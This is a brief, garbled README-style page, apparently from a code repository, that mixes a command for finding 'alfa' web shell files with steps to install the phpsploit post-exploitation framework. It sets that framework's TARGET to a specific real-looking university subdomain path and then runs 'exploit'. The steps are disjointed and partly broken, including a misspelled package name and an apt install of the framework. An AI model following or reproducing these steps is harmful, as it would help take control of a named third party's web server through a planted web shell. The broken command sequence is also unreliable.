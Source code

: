 pkill codes name alfa shell by terminal
======================

find . -type f -exec grep "alfa" '{}' \; -print
======================

mkdir php.php
======================
- git clone https://github.com/nil0x42/phpsploit
- cd phpsploit/
- pip3 install -r requirements.txt
- ./phpsploit set TARGET https://sidesa.umpar.ac.id/php.php
- apt install phpsloit
- set TARGET https://sidesa.umpar.ac.id/php.php
- exploit
- phpsploit
- whohaxorqt1337
